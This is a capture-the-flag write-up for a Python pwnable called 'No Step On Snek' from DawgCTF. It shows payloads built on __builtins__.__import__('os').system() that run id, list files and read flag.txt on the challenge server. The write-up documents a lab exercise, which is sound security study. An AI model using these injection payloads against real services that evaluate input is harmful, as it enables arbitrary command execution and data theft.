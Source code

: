 # No Step On Snek
## Challenge
Type: Pwn
```
I heard you guys like python pwnables

nc umbccd.io 4000
```

## Solve
![null](src/nosteponsnek_null.png)

But the the maze changes every time and nothing happens when you give "w", "a", "s", "d" as input. A script is not the solution this time!

Let's try if we can use some python [builtins](https://docs.python.org/3.9/library/functions.html) or not, as it says in the challenge description.
```python
__builtins__.help()
```
![help](src/nosteponsnek_help)
We can definitely use builtins!!!

Use following for PoC:
```python
__builtins__.__import__("os").system("id")
```
![poc](src/nosteponsnek_poc)

Now we just need to find the flag and read it, listing can help us.
```python
__builtins__.__import__("os").system("ls -al")
```
![ls](src/nosteponsnek_ls)

Such a luck!
```python
__builtins__.__import__("os").system("cat flag.txt")
```
![flag](src/nosteponsnek_flag)

We've successfully captured the flag!! ``DawgCTF{bUt_iT'5_c@ll3d_1nput}``

***Written by f4T1H***
